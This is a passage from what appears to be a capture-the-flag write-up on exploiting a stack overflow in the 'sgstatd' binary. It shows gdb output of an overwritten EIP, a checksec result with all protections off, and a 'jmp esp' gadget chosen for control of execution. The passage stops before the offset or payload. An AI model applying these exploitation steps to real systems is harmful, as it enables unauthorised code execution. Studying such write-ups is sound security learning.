 Continuing the program after the canary validates shows we have successfully bypassed the Stack Canary security mechanism and overwritten EIP for control of execution flow:

```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ info reg
eax            0x0  0x0
ecx            0xbfffefbd 0xbfffefbd
edx            0x0  0x0
ebx            0xb7fbdff4 0xb7fbdff4
esp            0xbffff030 0xbffff030
ebp            0x41414141 0x41414141
esi            0x0  0x0
edi            0x0  0x0
eip            0x41414141 0x41414141
```

We check for other security mechanisms we may need to defeat on this binary. It would seem none are activated:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
gdb-peda$ aslr
ASLR is OFF
```

Indeed, we notice our stack addresses are seemingly quite fixed at the following value:

  * ESP = 0xbffff030

Given that ESP points to the beginning of our input buffer we have two options:

  1. We can simply set EIP to the static value of ESP
  2. Or we can find a ROP gadget at a fixed offset in the “sgstatd” binary containing an instruction “JMP ESP” which will accomplish this more reliably

I prefer the second option as it is more likely to work across different systems. We find such an instruction at memory address 0x80493b6:

```
gdb-peda$ ropsearch "jmp esp"
Searching for ROP gadget: 'jmp esp' in: binary ranges
0x080493b6 : (ffe40f8581ffffffb800000000c9c3) jmp esp; jne 0x804933f </span>; mov eax,0x0; leave; ret
0x080493b3 : (f2e4ffffe40f8581ffffffb800000000c9c3) repnz in al,0xff; jmp esp; jne 0x804933f </span>; mov eax,0x0; leave; ret

```

Next we repeat our “pattern_create” steps to find the exact buffer offset where we are overwriting EIP:
